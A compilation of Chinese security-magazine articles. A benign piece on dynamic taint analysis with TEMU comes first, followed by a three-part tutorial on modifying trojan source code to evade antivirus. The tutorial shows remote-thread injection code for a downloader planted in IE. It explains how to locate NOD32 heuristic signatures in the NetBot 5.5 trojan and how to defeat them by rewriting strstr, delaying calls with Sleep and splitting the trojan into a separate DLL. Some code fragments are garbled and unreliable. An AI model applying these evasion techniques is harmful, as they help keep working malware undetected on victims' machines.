动态污点分析已经成了确保软件和系统安全的一种重要技术。该技术主要用于检测漏洞攻击以及检测恶意软件。其基本思路是：在无攻击的环境下运行软件并得到系统调用参数间的关联关系；将软件部署到实际环境中，如果实际得到的关联关系与学习得到的关联关系存在偏差，则认为检测到了异常。这种方法的思想与传统的安全方法和产品相同，都是学习正常—检测异常，只不过实现的手段不同。动态污点分析能够真实准确地刻画出软件的运行时信息，从而能够实现准确的安全分析和防护。

动态污点分析包括三个基本概念：污点源、污点传播和污点传播链。污点源来自外部输入或其他任何用户认为的不可信来源，如网络或者文件读入操作。如果数据来自于不可信的来源，则为其打上污点标签。动态污点分析给程序中污点源的每字节关联一位或多位污点标签。在最简单的情况下，1 bit的污点标签就足够了，但是在有些情况下多位更有用。例如，为了区别多个输入源或多个信任级别（trust level），当处理低级别语言例如C或者二进制时，用一个全局数组（由内存位置来进行索引）来维护这些污点标记。例如，与存放在内存位置处的数据关联的污点标签存储在tag[]。在程序执行过程中，污点源会与程序中的其他数据发生关联如赋值操作，这样本来程序中的可信数据就被“污染”了，这个过程被称为污点传播。在程序执行结束后，就可以得到受污染的内存和变量以及污点传播的顺序，从而形成了污点传播链。

在具体实现中，有多种方式可以实现动态污点分析，如基于语言的方法、基于源代码的方法、基于二进制的方法和基于硬件的方法等。每种方法各有利弊，本文将介绍其中较成熟且较知名的一个平台——TEMU。TEMU是基于二进制的方法。

## 动态污点跟踪平台TEMU

TEMU由UC Berkeley的Prof. Dawn Song领导开发。目前，开发组已将TEMU的一个初级版本开源，读者有兴趣可以去项目网站下载源码（http://bitblaze.cs.berkeley.edu/temu.html）。笔者有幸获得了TEMU的一个更高级版本源码，因此部分源码级的分析可能与读者看到的源码不一致，但是鉴于保密原则，本文将不提供更高版本源码。

TEMU是基于QEMU实现的一个系统级的动态二进制代码分析平台，其能够跟踪操作系统级的行为以及执行系统级的动态污点分析（Dynamic Taint Analysis）。QEMU是一个开源的系统模拟器。TEMU的优势为：

- 1. 细粒度的分析，指令级；
- 2. 能够分析操作系统内核以及多个进程间的交互关系；
- 3. 提供一个隔离的环境，使得分析程序无法干扰被分析程序。

TEMU 的实现原理如图 1 所示。TEMU 用 C 和 C++ 实现，其中对于性能要求较高的地方用 C 实现，如污点分析相关的代码。


我们首先介绍 QEMU 实现中的一个关键原理——指令动态翻译技术（Dynamic Translation），因为其关系到 TEMU 污点跟踪的实现方法。指令动态翻译的基本思想就是把每一条 x86 指令切分成为若干条微指令，每条微指令由一段简单的 C 代码来实现。然后通过中间工具（dyngen）提取相应的目标文件（op.o）来生成一个动态代码生成器，最后把这些微指令组合成一个函数。x86 指令在 ../target-i386/op.c 中实现，例如 addl 的实现为：

```c
void OPPROTO op_addl_T0_T1(void)
{
    T0 += T1;
#if TAINT_ENABLED
    taintcheck_fn2regs(R_T0, R_T1, R_T0, 4);
#endif
}
```

图 2

TEMU 中 x86 指令的这种实现方式使得我们可以在指令级进行污点传播和跟踪，从而使得分析技术本身更健壮、更有效。从图 2 可以看到，TEMU 在相关的指令实现中添加了污点传播函数。根据不同的操作所使用的污点传播函数也有所不同：污点分析引擎通过数据移动指令如 MOV 和算术运算如 ADDL 等进行污点传播。具体哪些指令涉及污点传播可以参考源码。另外，TEMU 还可以通过插件来实现完全不同的污点传播策略。

对于污点标签的维护，TEMU 使用影子内存（shadow memory）来存储物理内存、CPU 寄存器、硬盘和网络接口缓冲区中每个字节的污点状态（taint status）。每个被污染的字节都关联一个小型数据结构，这个结构中存有每个污点的原始来源，还有其他一些 TEMU 插件希望维护的标签信息。出于效率考虑，影子内存被组织成一个类似页表的数据结构。通过对硬盘使用影子内存，系统可以继续追踪那些被交换出去的污点数据，同样也可以追踪那些起初被写入文件现又被读入内存的污点数据。

TEMU 使用一个单独的插件来负责将污点源导入系统。TEMU 支持通过硬件输入的污点源，例如键盘、网络接口和硬盘。TEMU 还可以对更高抽象级别的数据对象做污点分析（例如有函数调用的输出，特定应用程序或操作系统内核中的数据结构）。

##### TEMU 分析实例

为了更清楚地介绍 TEMU 动态污点分析的原理，笔者将对一个小程序进行分析。关于 TEMU 的安装以及命令，本文将忽略，有兴趣的读者可以参考开发组提供的 HOWTO 和使用手册（项目网站上以及源码中）。本文实验的例子程序如图 3 所示。

```c
#include <stdio.h>
int main() {
    FILE *pFile;
    while (1) {
        pFile = fopen("myfile.txt", "w");
        if (pFile != NULL) {
            printf("input string \n");
            fputs("open example", pFile);
            fclose(pFile);
        }
        sleep(2);
    }
    return 0;
}
```

图 3

试验环境为：在 Ubuntu 9.04 操作系统上运行 TEMU，虚拟机中安装的客户操作系统也是 Ubuntu 9.04。

对于本程序，在每次系统调用时，首先检查每个系统调用参数是否已被打上污点标签，如果没有则为其打上新的污点标签。在系统调用返回时，也做相同的检查。在程序运行结束后，可以得到所有系统调用间的参数关联关系。为了实现该实验，作者对 TEMU 的源码做了少量修改。

在实验结束后可以得到参数关联关系（污点传播链），如图 4 所示。作为对比，笔者也用一个传统的方法得到了该程序的参数关联关系，如图 5 所示。其中，P0，P1…Pn 代表状态，每条系统调用将导致状态的转换；实线表示状态的变迁，虚线表示参数间的关联关系。

从对比中可以发现 TEMU 的动态污点分析可以得到更丰富的信息。其中有些信息较奇怪，比如 P1 和 P10 都有自环，这说明 write 和 sleep 自身的参数（包括返回值）之间存在关联关系。通过对 Linux 源码的分析发现这种关系的确存在。这种关联关系也许没有多大意义，因此处只是一个示例，读者可以参考其他相关文章和论文来了解 TEMU 检测攻击的实例。


##### 总结

与数据流分析技术相似的另一种技术为控制流分析技术。控制流分析技术通过分析软件运行过程中的系统调用序列或系统调用图来检测潜在的攻击行为。控制流分析技术之所以有用是因为攻击者过程一般会导致软件的执行流程与正常情况相比发生变化，如典型的缓冲溢出攻击使得软件跳转去执行 Shellcode。但是，这类方法也存在局限性，因为攻击者能够很容易找出不改变程序执行流的攻击方法，同时这类方法也无法有效地检测当前十分流行的 SQL 注入等攻击。

相比较而言，数据流分析技术更健壮、更有效，因为攻击者要想实施攻击，通常都需要向被攻击软件发送恶意数据（SYN flooding 等攻击除外），这些恶意数据更有可能导致软件系统调用的参数发生异常，而不一定会改变软件的执行流程。因此，动态污点分析技术相比较而言更有效、更健壮。

但是，由于 TEMU 是基于 QEMU 的，而 QEMU 的动态指令翻译使得运行时开销巨大，因此导致 TEMU 的运行时开销也非常大。但是这种性能瓶颈不会影响动态污点分析技术的有效性和发展前景，因为终会有方法极大地降低运行时开销。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

- 前置知识：无
- 关键词：免杀、启发杀毒、主动防御


#### 反高启发与反主动防御之谜——基于源码的免杀技术（上）

文／闪亮的心

很早就想写这样一篇文章，可一直有些细节问题没有弄清楚。在请教了众多高手后，终于整理出了本篇系列文章。其中上篇主要讲述启发式杀毒和主动防御的原理以及特点；中篇讲述如何定位启发式杀毒以及主动防御的真正代码；下篇则主要讲解如何绕过启发式杀毒及主动防御。

高启发与主动防御虽然都是基于函数的拦截技术，但在查杀过程中有着很大的区别。高启发采用静态反汇编技术来分析函数执行模块，根据函数模块的具体执行流程来判断一些敏感函数是否有违规操作；而主动防御则是 Hook 一些敏感 API，在程序执行过程中，对于非信任列表中的程序调用敏感 API 的行为进行监控，如果 API 的调用行为符合黑客程序的流程，则进行拦截。

首先来了解下高启发，事实上大多数人对于高启发的认识存在这样一个误区，就是认为高启发的病毒特征是定位在程序输入表上。我们来换位思考，对于 API 来说，并没有具体分类使用说明，有的必须用于后门程序，有的必须用于正常软件。这显然不合乎逻辑，那么高启发究竟是怎么判断的呢？

例如我们通过传统定位方式在定位某个木马的 NOD32 特征的时候，经常会定位到 kernel32.dll 这个字符串上面，但是所有程序的输入表信息里几乎都有 kernel32.dll 这串字符，那么显然 NOD32 不是只看到 kernel32.dll 这个字符串就进行查杀的。而对于一个木马文件的免杀来说，一般我们只关心 .text 这个字段，因为它是由编译器产生，存放整个程序执行流程的二进制代码，也是所有杀毒软件分析的对象。NOD32 的算法非常特别，虽然是从 .text 段查询特征代码，但最终定位是通过分析算法定位到了输入表函数上……

为函数已经被你填充掉了，不能执行的后门程序自然无害。而通过移位等方式改变函数位置却无法达到免杀的目的，因为 NOD32 定位输入表的算法是根据 PE 文件的一个名为 IMAGE_DATA_DIRECTORY 的结构体来获取输入表函数位置的，而不是传统的 RVA 对应的机器指令为特征码。简单地说，NOD32 首先是定位 .text 段的函数执行指令，然后查找 PE 文件的结构体信息，最后定位输入表字符串，从而完成整个定位过程，这样做的好处是可以使文件定位器变得非常难用。那么 NOD32 究竟是如何在 .text 段里查找特征码的呢？

对于传统杀毒软件来说，一般特征码的提取是根据相对虚拟地址对应的机器码进行查杀，假设某木马文件的地址（这里说的是文件地址，要和内存地址加以区分）0x00006836 处对应的机器指令为 B4，为某杀毒软件的病毒特征（当然实际情况为了避免误杀，杀毒软件一般会选取更长的机器指令，这里选取一个字节只是为了演示说明），杀毒软件在查杀的时候就会判断每个文件 0x00006836 处的机器指令是不是 B4，如果是则查杀，如果不是，则为正常文件。但是 NOD32 的启发规则略有不同，选取的是 API 调用指令的机器码作为特征匹配码。

例如 system("command.com") 是用来开启一个 DOS 对话框的函数。首先系统会把 command.com 这串字符压进堆栈，这时堆栈指针 ESP 就会指向栈顶，也就是 command.com 的地址；接着系统又会把函数 system 的地址放进寄存器 EAX 当中，假设 system 的地址为 0x7801AFC3，最后由 EIP “CALL EAX” 完成整个函数的执行过程。假设 NOD32 把 system 函数认定为危险函数，它可能就会把 “MOV EAX,7801AFC3h” 所对应的机器指令 “B8 C3 AF 01 78” 作为特征码在整个 .text 段进行匹配（也有可能是 “CALL EAX”，但是要判断 EAX 存放的函数地址），如果发现执行流程危险则报警删除。当然实际情况要比这复杂，NOD32 的启发函数库是多种函数的组合。当扫描文件时，则对 PE 文件的 .text 段进行匹配，如果碰到后门特征函数组合，则进行查杀。说白了，一句话，所谓启发也就是函数执行过程的机器码匹配。再简单点，就是机器指令字符串的多重匹配。

接下来，我们来做一个实验来验证结论的正确性。远程线程注入技术是现今比较流行的后门隐藏及穿墙技术，比如灰鸽子就通过远程注入来插入 IE，从而达到隐藏自身和穿墙目的。我们简单配置一个远程注入的下载者来说明这一问题，其主要代码如下：

```cpp
// 省略定义结构体以及部分函数
BOOL InjectIE(DWORD ProcessID)
{
    if (EnableDebugPriv(SE_DEBUG_NAME))
        return FALSE;

    HANDLE Handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessID);
    if (Handle == NULL)
        return FALSE;

    void *pRemoteThread = VirtualAllocEx(Handle, 0, 1024 * 4,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (pRemoteThread == NULL)
        return FALSE;

    if (WriteProcessMemory(Handle, pRemoteThread, &DLthread, 1024 * 4, 0))
        return FALSE;

    HANDLE hThread;
    hThread = CreateRemoteThread(
        hWnd, 0, 0, (LPTHREAD_START_ROUTINE)
        pRemoteThread, pRemoteData, 0, 0);
    return true;
}
```

以上代码就是一个典型的插入 IE 进程下载者的基本框架，假设我们在主函数内添加一些垃圾代码，例如 “HANDLE m_handle = GetCurrentProcess(); CloseHandle(m_handle);” 等类似代码，那么相对于 .text 段的二进制代码都会发生改变（比如原来 0x00006836 对应的机器指令是 B4，那么现在就有可能变成 A3 或者其他什么）。如果在做杀毒软件的表面杀毒测试的话，会惊奇地发现以前报毒的程序现在已经不报了。但对于 NOD32 则不然，它会提示“未知 PE 病毒”，这时候无论我们怎么移动函数或者添加代码，结果依然不变。如果做这样的测试，我们将 URLDownloadToFile 和 CreateRemoteThread 注释掉，再编译查杀，发现 NOD32 已经不报毒了；同样，如果把 WinExec 和 CreateRemoteThread 注释掉，一样不报毒。由此可见，NOD32 的高启发主要是采用函数组合匹配的方式来进行查杀。如果要逃避高启发的查杀，要么改变函数的使用序列，要么保护 .text 段不被反编译。前者，我会在后面的文章着重讲解，这里说下后者。如何保护程序不被反编译？毫无疑问要使用保护壳，其实壳的作用就是对 PE 文件按照某种算法进行加密或压缩，当程序在运行的时候，再由壳程序进行解密释放。那么对于 NOD32 这样启发杀毒的杀毒软件来说，如何高效地脱壳就是其面临的最大问题。但是随着微软逐渐面向一些大企业开源 Windows 代码，或许脱壳难的问题将会极大地得到改善，同样也会逐渐淘汰现在普遍使用的加壳改壳法过高启发。

在分析完高启发的杀毒模式后，接下来我们来分析主动防御。主动防御和高启发不同，高启发是通过仿真技术对 PE 文件进行查杀，而主动防御则是在 PE 文件执行的过程中，进行动态查杀。如果某个非信任的 PE 文件在执行过程中有某些敏感行为（调用了某些危险函数）就进行拦截。简单说，就是动态查看线程调用某个 API（比如 CreateRemoteThread）的控制流路径。

虽然主动防御在当今被称为行为拦截技术，但本质上来说，还是特征码查杀，只不过由传统文件特征查杀转变为在执行过程中进行函数特征查杀，其实现过程就是 HOOK 了它认为危险的 API。当然并不是所有的敏感 API 调用都要进行拦截。在 Windows 32 位平台下，系统会为每一个进程空间分配 4GB 的可访问地址。在实际调用中，系统会根据进程需要通过内核来分配实际物理地址。那么在有限的系统资源下，主动防御不可能监控每一个系统进程。

以 KIS2010 为例，当一个程序在实际执行的过程中，KIS2010 会首先判定其是否为许可程序。比如“添加到信任列表中的程序”或者是否具有“数字签名”的程序，如果是此类程序，则放行；如果不是，则进行监控。当监控中的程序调用了相关监视中的 API 时，则进一步分析判定。如果判定危险，则进行拦截。

如果要突破主动防御，首先要做到的就是定位主动防御的特征代码，更明确地说是定位主动防御的拦截函数。一般来说，主动防御是 HOOK SSDT 表的相关函数，如果查询的话，都会使用 ARK（Anti Root Kits）工具来进行查询，但对于不熟悉内核的程序员来说，很难将 Ring0 下的某个 API 对应到 Ring3 下的 API。再者，对于未文档化的函数来说，通常需要逆向工程来分析其具体执行流程。如果是单纯定位主动防御的具体函数的话，通过延迟触发未尝不是一种比逆向工程更为简单快捷的方法。

我们知道，现在所有的主动防御都会拦截 CreateRemoteThread()，那么对于上面的代码段，我们做如下处理。

```cpp
// 省略定义结构体以及部分函数
// 把远程线程写入内存，DLthread 为一个下载者线程
// 初始化结构体，并写入内存，省略
HANDLE hThread;
Sleep(5000); // 做延迟触发
hThread = CreateRemoteThread(
    hWnd, 0, 0, (LPTHREAD_START_ROUTINE)
    pRemoteThread, pRemoteData, 0, 0);
return true;
```

我们在 CreateRemoteThread() 前加入 Sleep(5000)，也就是说在程序执行完 5 秒后再创建远程线程。这时候你会惊奇地发现，改动前与改动后主动防御提示有了很大的变化。改动前是杀毒软件立即弹出了主动防御拦截提示，而改动后，主动防御的提示大概会在程序启动 5 秒后弹出。如果熟悉 WINDBG 或者 SOFTICE 的朋友更可以对 CreateRemoteThread() 加入断点再跟踪。这时候很容易发现，主动防御是在程序执行过程中进行动态拦截的。换句话说，假设 CreateRemoteThread() 前面没有主动防御拦截的相关函数的话，那么在程序执行到达 CreateRemoteThread() 之间的函数已经全部被执行过了。基于此点，如果合理利用 Sleep 这个函数的话，我们可以使得一个程序分时进行，在函数被拦截前做很多小动作，如果小动作做得够巧妙，未必不能实现我们的目的。

综合两种方法来看，未来杀毒软件势必有将两者结合的趋势，从 KIS2010 就能看得出来。启发式杀毒速度快，准确率高，但是受到反调试和

前置知识：无  
关键词：免杀、启发杀毒、主动防御

##### 反高启发与反主动防御之路

### ——基于源码的免杀技术（中）

文 / JKS · 闪亮的心


如果问一个程序员最讨厌的事情是什么？绝大多数都会回答“修改程序”。任何程序哪怕只是修改一个很小的地方，都很有可能会对程序全局代码进行修改。对于修改源代码来实现主动防御和启发杀，也是一件很繁琐的事情。本文我将主要讲解如何通过修改源代码来定位启发杀毒和主动防御真正的特征码。

虽然加壳改壳非常适合逃避高启发的查杀，但对于某些 DLL 木马则不能进行加壳处理。因为加壳后的 DLL 通常会因为代码被加密而导致主控端的配置信息无法写入。比如时下比较流行的 NetBot（后面的文章全部简称 NB）就属于此类木马，而 NB 的 5.5 版除了 DDOS 部分的代码没有放出以外，其余部分是完全开源的。因此下面就以 NB5.5 为例，来讲解如何通过修改代码来定位高启发以及主动防御真正的特征码。

由于 NB5.5 是通过替换 BITS 服务或 svchost 启动来实现自启动的。其中 ServiceMain 函数中的 RuningThread 负责启动整个木马的工作线程。在这里我们做个小实验，将 CreateThread 这句代码注释，当然注释的时候需要在 CreateThread 上方加入 “HANDLE hThread;” 否则在编译的过程中，后面的函数就会找不到 hThread 这个变量而报错。

```c
void __stdcall ServiceMain(DWORD dwArgc,
    wchar_t* argv[])
{
    ...
    HANDLE hThread;
    // HANDLE hThread = CreateThread(NULL,NULL,
    //     LRuningThread,NULL,NULL,NULL);
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
}
```

这时候编译一下，将生成的 DLL 文件由 NOD32 进行查杀，会惊奇地发现 NOD32 已经不查杀了。80% 的人都会认为 CreateThread 就是 NOD32 的特征函数。我们先看一下注释 CreateThread 前和注释后 DLL 文件的大小，注释前是 515KB，注释后只有 32KB。这是因为编译器在编译代码的时候只对有效函数的执行过程进行编译，而不是对函数的所有内容进行编译。例如以下代码：

```c
for (int i = 0; i < 5; i++)
{
    printf("this is a test");
    if (i == 3)
        break;
    if (i > 3)
        printf("this is a error");
}
```

以上这段简单程序在编译后，“this is a error”是不会出现在生成的 PE 文件中的，因为当 i 等于 3 的时候循环就已经结束了，而 `printf("this is a error")` 是永远得不到执行的。那么在我们注释掉 CreateThread 函数后，由于 CreateThread 不能被执行，后面的相关函数因为中断了函数的后续执行代码，就不会被编译进 PE 文件中。所以这将导致真正的特征代码函数被错误地忽略掉。我们进一步观察 CreateThread 所创建的线程函数 RuningThread 做了哪些事情。

```c
DWORD __stdcall RuningThread(LPVOID lParam)
{
    ...
    while (1)
    {
        GetIpAndPort();
        HANDLE hThread = NULL;
        hThread = CreateThread(NULL, NULL, ConnectThread,
                               NULL, NULL, NULL);
    }

    WSACleanup();
    return 0;
}
```

对于 RuningThread 来说，其中 GetIpAndPort() 是用来获取主控端的连接 IP 和端口信息的，而这里的 CreateThread 是用来创建主连接线程的。这时候，我们先把 GetIpAndPort 放在一边，继续查看 ConnectThread 做了哪些动作。

```c
DWORD __stdcall ConnectThread(LPVOID lParam)
{
    switch (msgHead.dwCmd)
    {
    case CMD_FILEMANAGE:
    {
        CreateThread(NULL, NULL, FileManageThread, NULL, NULL, NULL);
    }
        break;
    case CMD_SCREENSTART:
    {
        // 获取上线的 Socket == DWORD
        DWORD dwSock = msgHead.dwExtend;
        CreateThread(NULL, NULL, ScreenThread, (LPVOID)dwSock, NULL, NULL);
    }
        break;
    }
}
```

```c
...（上一段代码尾部）
}
```

从 `switch(msgHead.dwCmd)` 开始，通过注释不难发现，整个远程控制的功能主体都在这里了，从文件管理到视频捕捉，可以说应有尽有。这里我们先将 `case CMD_FILEMANAGE` 到 `default: break`（不包括 `default: break;`）之间的代码注释掉，再编译就会发现，生成的 DLL 文件 NOD32 是不查杀的，也就是说 NOD32 的特征代码是存在于具体功能的实现函数中。然后将 `case CMD_FILEMANAGE` 前的注释符号移动到 `case CMD_SCREENSTART` 前，这样就保证了 FileManageThread 被编译进 PE 文件，接着进行查杀，这时候 NOD32 就会报警了。我们继续跟踪 FileManageThread 这个具体函数。在处理 FileManageThread 这个具体函数的时候，首先进行整体注释，只保留返回值就好，这样做的理由是可以判断到底特征代码是在 FileManageThread 中，还是创建这个函数的线程函数。因为针对主流的木马程序，很有可能 CreateThread 成为其特征函数。在经过 NOD32 再次查杀后，依然没有报警，那么就能说明某个特征函数存在于 FileManageThread 这个函数中。

接下来，依次将上注释符往下移动，逐步释放代码进行编译（每次释放 2~3 行代码为宜），一直到循环 while(1) 前都没有被 NOD32 查杀。而要定位循环中的代码，一定要将上下注释符放到整个循环中，否则循环就会因为括号不完整而产生编译报错。因此，将下注释符放在 default 前一行，上注释符放在 `case CMD_FILEDRIVER` 前，同处理 ConnectThread 一样，继续对循环函数进行跟进。每释放一个 case 消息，就对消息响应函数进行全部注释，然后将最上面的注释符号依次下移。注意，代码移动量不要过大，这时候会一直跟踪到 `case CMD_FILEDOWNSTART` 所对应的 FileDownThread 函数里。

```c
DWORD __stdcall FileDownThread(LPVOID lParam)
{
    typedef BOOL (WINAPI *pReadFile)(
        HANDLE hFile,
        LPVOID lpBuffer,
        DWORD nNumberOfBytesToRead,
        ...
    );
}
```

### 工具与免杀
#### CHARACTER CODE VARIATION IN HACKING TOOLS（栏目编排）

```c
LPDWORD lpNumberOfBytesRead;
LPOVERLAPPED lpOverlapped;

pReadFile MyReadFile = (pReadFile)
    GetProcAddress(hInst, "ReadFile");

/*
// 循环发送文件数据
while (dwDownFileSize > 0)
{
    if (MyReadFile)
    {
        if (!MyReadFile(hDownFile, SendBuffer, 4096,
            &dwBytes, NULL))
            break;
    }
}
*/
```

用同样的方法进一步定位就会定位到 **MyReadFile** 这个函数上。在注释掉这个函数后，编译得到的 PE 文件和注释前编译得到的 PE 文件大小已经不会发生明显变化，这可以说明这里的 MyReadFile 就是 NOD32 高启发的真正特征函数了。而这里的 MyReadFile 是自定义的一个函数，它是 ReadFile 的动态载入函数。结合上下代码，ReadFile 在木马里起到关键作用，其功能是负责读取文件的数据。

如果不使用这个函数，那么势必引起被控端文件无法读取。若针对 MyReadFile 进行修改，就需要实现和 ReadFile 同样功能的函数来进行替换。一般情况下可用 C 语言库函数 fopen/fread，或者用 ASM 自行实现 ReadFile。

首先要看一下 MyReadFile 的调用流程。MyReadFile 被 FileDownThread 调用，而 FileDownThread 是由 FileManageThread 的消息处理函数捕捉到 CMD_FILEDOWNSTART 来进行调用的。

FileManage 进行调用的。在反向注释过程中，要保证 MyReadFile 被编译进 PE 文件，那么相关调用函数不能被注释，尤其不要因人为中断导致后续代码不被编译。

在一路逆向定位下，在 NB5.5 中会定位到 `lstrstr` 这个函数（位于 GetIpAndPort 中）。`lstrstr` 用于查找特征字符串；如果要自己实现一个 `strstr`，有一定编程基础的人都能完成。修改完相关代码后，继续下一个消息处理函数的注释即可。

在解决了启发式杀毒的定位后，再解决主动防御定位。主动防御是在非信任程序运行时拦截敏感函数执行来阻止恶意代码运行。函数延迟触发是定位主动防御的有效方法。

```c
void __stdcall ServiceMain(DWORD dwArgc,
    wchar_t* argv[])
{
    Sleep(5000);
    HANDLE hThread = CreateThread(NULL, NULL, RuningThread, NULL, NULL, NULL);

    /*
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    */
}
```

在确保前面的函数没被主动防御拦截后，我们针对 `CreateThread` 进行延迟触发，然后将编译后的程序放到开启主动防御的杀毒软件上测试。若运行后触发拦截提示，则说明 `RuningThread` 里存在被主动防御拦截的函数，继续跟进该函数并同样进行定位处理。

注释：唯一不同的就是，在对函数单个测试的时候，需要加入 Sleep() 函数来判断。好了，中篇就说到这里了，下篇将专门讲解如何处理定位到的函数。如果有对文章不明白的地方，欢迎大家来“黑防”论坛提问，我的黑防 ID 是“闪亮的心”。

- 前置知识：无
- 关键词：免杀、启发杀毒、主动防御

## 反启发杀与反主动防御之路
## —— 基于源码的免杀技术（下）


文／JKS，闪亮的心

前两篇文章主要介绍了启发式杀毒和主动防御杀毒的特点以及如何定位源代码中的特征码。本文我将详细讲解如何通过修改源代码来达到通过启发式杀毒以及躲避主动防御的方法。

在中篇里，我已经定位出 NB5.5 文件管理部分的两处特征码，并且定位到了两个具体函数，一个是位于 FileDownThread 中的 MyReadFile，一个是 GetIpAndPort 中的 strstr。修改的话有两种选择，要么替换 ReadFile 动态加载的 MyReadFile 函数，要么是实现和 strstr 一样功能的函数。这里我选择替换 strstr 函数，并将新函数起名为 MyStr，具体实现过程如下：

```c
while (*s1) {
    if (*s2 == 0)
        return (char*)s1;
    if (*s2 != s1[i])
        break;
    i++;
}
s1++;
return (char*)NULL;
```

```c
char *MyStr(const char *s1, const char *s2)
{
    unsigned int i = 0;
    if (*s1 == 0) {
        if (*s2)
            return (char*)NULL;
        return (char*)s1;
    }
    while (*s1) {
        i = 0;
        ...
    }
}
```

几个非常简单的循环就实现了 strstr 的功能。具体就不多做解释了。这时候只要将 GetIpAndPort 中的 `if(strstr(modify_data.strIPFile,"http")==NULL)` 这句替换为 `if(MyStr(modify_data.strIPFile,"http")==NULL)` 就解决问题了。此时再编译 DLL 文件，发现 NOD32 已经不查杀了，同样也无损文件传输功能。在这里，还要强调一个问题，为什么 strstr 和 ReadFile 这两个函数成对出现，就成为了 NOD32 的组合特征码了呢？是不是只要有程序包含这两个函数就会被判定成病毒或木马呢？

经过大量测试后，发现对于 NOD32 这样的杀毒软件来说，有两种启发杀毒的方式：一种是通用组合函数，比如前面说到的 URLDownloadToFile 和 WinExec 不能成对出现；还有一种是流行木马模块组合函数，像 NB5.5 中的 strstr 和 ReadFile 就属于此类组合。任何一款木马都要具备符合本身特征的程序框架，也就是程序工作的流程。当一款木马被杀毒软件大量截获时，通常情况下有两种处理方式：要么定位多重特征码，从而给文件免杀带来困难；要么采用特征框架函数，就好比分析此类木马的执行模块后，对这一模块本身特征函数进行定位。

NOD32 的病毒库就是基于此类方式实现的。虽然对于启发式杀毒很多人都喜欢使用动态载入的方式来实现免杀，但随着 NOD32 的多次升级，这一招现在已经变得不那么好用了。NOD32 会从病毒库中的程序模块进行判断，如果出现 LoadLibrary 或者 GetProcAddress 函数，则立即报毒，这也是 NOD32 在新版本中体现的特性之一。当然，这只是针对模块特征码而出现的特性，但是动态载入并非绝对不能使用。

我们先回到 NB5.5 没有替换掉 strstr 之前的代码，来观察下 FileDownThread 函数。在不注释 MyReadFile 的情况下，将 GetProcAddress 注释掉。

```cpp
DWORD __stdcall FileDownThread(LPVOID lParam)
{
    pReadFile MyReadFile;
    // pReadFile MyReadFile = (pReadFile)
    // GetProcAddress(hInst, "ReadFile");

    return 0;
}
```

这就是我说的第二种情况。对于 NB5.5 来说，文件功能模块显然被 NOD32 进行了重点关照，而在查杀 ReadFile 的同时也将 GetProcAddress 当作模块特征函数。那么怎么来解决这个问题呢？毕竟实现动态载入比实现替换函数要简单得多。

对于函数 ReadFile 来说，其调用者是 FileDownThread，而 FileDownThread 的调用者是 FileManageThread，最终调用 FileManageThread 的是 ConnectThread 中的处理函数捕捉到 CMD_FILEMANAGE 来创建线程实现的。那么，`case CMD_FILEMANAGE` 就是 ReadFile 的调用源，同时也是启动文件模块的入口点。这就变得好办多了，既然不能在模块中使用 GetProcAddress，那么我们在模块外使用即可，将动态载入的函数定义为全局变量，然后需要调用的时候直接调用。

换句话说，就是将 MyReadFile 函数的实现过程放到 `case CMD_FILEMANAGE` 之前，同时 MyReadFile 定义为全局变量，即可达到效果。虽然这能解决问题，但是牵涉到函数使用过后句柄释放一系列问题，所以并不推荐此类方法。表面上看，不会产生多大的问题，但是实际上，这将可能造成客户端内存占用过大或者内存泄露。

无论是函数替换也好，或者是函数动态载入也罢，对于流行木马的源代码修改来说，都存在一个弊端，就是流行木马的查杀规则。起初木马的免杀都是基于修改木马文件某几个汇编指令而实现的。为了针对这种木马的变异方法，杀毒软件也采用确定木马主体框架后不断定位木马新的特征码而进行查杀的方法。比如瑞星公司就采用此类方法。

那么，针对木马框架查杀来说，显然简单的函数替换或者动态载入达不到修改主体框架的效果。为了使自己免杀出来的木马存活更长的时间，势必要对木马基本框架做一定的修改。一般我个人是采用模块分离以及修改主进程函数启动方式的技术来进行处理。以 NB5.5 来说，如果我修改了 CreateThread 创建主控线程的启动方式，那么无疑等于修改了整个木马的运行框架。

```cpp
void __stdcall ServiceMain(DWORD dwArgc, wchar_t* argv[])
{
    TellSCM(SERVICE_START_PENDING, 0, 1);
    TellSCM(SERVICE_RUNNING, 0, 0);

    // Run My Main code
    HANDLE hThread = CreateThread(NULL, NULL, RuningThread, NULL, NULL, NULL);
}
```

在这里，我将 RuningThread 之后所包含的所有代码重新封装成一个新的 DLL 文件，并把 RuningThread 做成导出函数，供其他 DLL 或者 EXE 调用，这很容易实现。然后修改 ServiceMain 启动主线程的方式。假设新生成的 DLL 文件取名为 Remote.dll，主控线程函数名字不变，那么就在 ServiceMain 中做以下变换：

```cpp
void __stdcall ServiceMain(DWORD dwArgc,
    wchar_t* argv[])
{
    TellSCM(SERVICE_START_PENDING, 0, 1);
    TellSCM(SERVICE_RUNNING, 0, 0);

    // Run My Main Code
    typedef DWORD (WINAPI *MyRuningThread)(LPVOID lParam);
    HINSTANCE hInstance = LoadLibrary("Remote.dll");
    MyRuningThread MainThread =
        (MyRuningThread)GetProcAddress(hInstance, "RuningThread");
    MainThread(0);

    // HANDLE hThread = CreateThread(NULL,
    // NULL, RuningThread, NULL, NULL, NULL);
}
```

```cpp
sockaddr_in sin;
sin.sin_family = AF_INET;
sin.sin_port = htons(4000);
sin.sin_addr.S_un.S_addr = INADDR_ANY;

// 使套接字和本地地址绑定
bind(m_Listen, (LPSOCKADDR)&sin, sizeof(sin));

// 使套接字进入监听模式
listen(m_Listen, 5);
```

